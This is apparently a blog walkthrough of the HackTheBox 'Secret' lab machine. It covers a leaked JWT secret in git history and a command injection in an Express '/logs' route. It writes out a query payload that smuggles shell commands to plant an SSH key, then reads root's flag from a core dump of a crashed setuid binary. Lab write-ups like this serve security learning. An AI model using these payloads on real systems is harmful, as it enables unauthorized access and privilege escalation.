 ```yaml
---
title: "HackTheBox: \"Secret\" Walkthrough"
date: 2022-04-25T14:00:00.000Z
tags: ['hackthebox', 'ctf']
slug: "hackthebox-secret-walkthrough"
categories: ["HackTheBox Walkthrough"]
draft: false
---
```


This machine might be interesting to those who don't like the
repetitive and rather boring task of scanning a host - because it
doesn't require any of that.<!--more-->

## Foothold

As usual, this machine has a landing page - we will find a ZIP file there,
which we download, of course. We will immediately notice the `.git` folder,
so let's use `git log` to inspect what happened there. One of the commit
messages sounds interesting:

> removed .env for security reasons

Let's inspect the changes introduced by this commit:

```diff
-TOKEN_SECRET = gXr67TtoQL8TS...
+TOKEN_SECRET = secret
```

This sounds a lot like a real world scenario - left over credentials in a
git repository are not unheard of.

Now, let's explore the contents of the ZIP file further. In the file `private.js`
we find this particular interesting snippet:

```js
router.get('/logs', verifytoken, (req, res) => {
    const file = req.query.file;
    const userinfo = { name: req.user }
    const name = userinfo.name.name;

    if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }
    else{
        res.json({
            role: {
                role: "you are normal user",
                desc: userinfo.name.name
            }
        })
    }
})
```

## User

The path is clear: Forge a JWT token for user "theadmin" and use the "file"
query parameter to execute arbitrary commands:

```plain
http://10.10.11.120:3000/api/logs?file=x;
mkdir ~/.ssh;chmod 700 ~/.ssh;
echo "ssh-rsa ..." > ~/.ssh/authorized_keys;
chmod 600 ~/.ssh/authorized_keys;
```

Note that I've added line breaks for better readability. Also note that before
sending this request, the query parameter must be URL encoded - otherwise the
command will break, for example because the `+` character will be interpreted as space.
Anway, we can now login via SSH and are done with the first part.

*NB: I **always** set the permissions like this, because I once had a machine were it didn't work
when the permissions were not exactly like this - and debugging this cost me a long time.*

## Root

Up next: Privilege escalation. As usual, I'm relying on LinPEAS to give me a hint - which it does.
LinPEAS shows us that `/opt/count` is a setuid binary. As such, it can read every file on the system.
The output is some kind of word/line count, so we don't get access to the file contents.

Now, everything that I tried to interfere with the execution of this binary failed. Or, to be more
precise, everytime I tried something (like running the binary with gdb), the setuid bit gets dropped.
Guess that makes sense, otherwise we could also attach to binaries like `sudo`...

Conveniently, we'll find the source code of the binary next to it. Here is the interesting part
(in the lines before the following snippet, the input file is read):
```c
// drop privs to limit file write
setuid(getuid());
// Enable coredump generation
prctl(PR_SET_DUMPABLE, 1);
printf("Save results a file? [y/N]: ");
res = getchar();
```
Let's look at the manpage of prctl:
> **PR_SET_DUMPABLE:** Set  the  state  of  the  "dumpable"  flag, which determines whether core dumps are
produced for the calling process upon delivery of a signal whose  default  behavior
is to produce a core dump. [...]
Normally, this flag is set to 1.   However,  it  is  reset  to  the  current  value
contained  in  the  file /proc/sys/fs/suid_dumpable (which by default has the value
0), in the following circumstances:
The process's effective user or group ID is changed. [...]

So again, we have a way forward: Run the binary, read `/root/root.txt`, and
as soon as the prompt appears, produce a coredump using:
```plain
kill -SIGSEGV $(pidof count)
```
Now, were can we find that coredump? Let's check:
```plain
$ cat /proc/sys/kernel/core_pattern
|/usr/share/apport/apport %p %s %c %d %P %E
```
We see that this machine uses [Apport](https://wiki.ubuntu.com/Apport).
Apport comes with some tools, one is:
> **apport-unpack**: Unpack a report into single files (one per attribute). This is most useful for extracting the core dump. Please see the manpage for further details. This tool is not necessary when working with Launchpad, since it already splits the parts into separate attachments.

All right - let's try it:
```plain
$ apport-unpack /var/crash/_opt_count.1000.crash tmp/
$ strings tmp/CoreDump
```
That's it! 😀

## Conclusion and Learnings

I was able to get the user flag really quick - having credentials in a git
repository and forging a JWT token was not too interesting.
But the privilege escalation took me quite a bit, as I lost a lot of time
on trying to *somehow* attach to the binary. Only after I was out of ideas,
I looked in the folder where the binary is to find the source code - and the
obvious clue. From there, finding out how to provoke a segfault and read
the coredump also took some time, but could be done with a few searches.
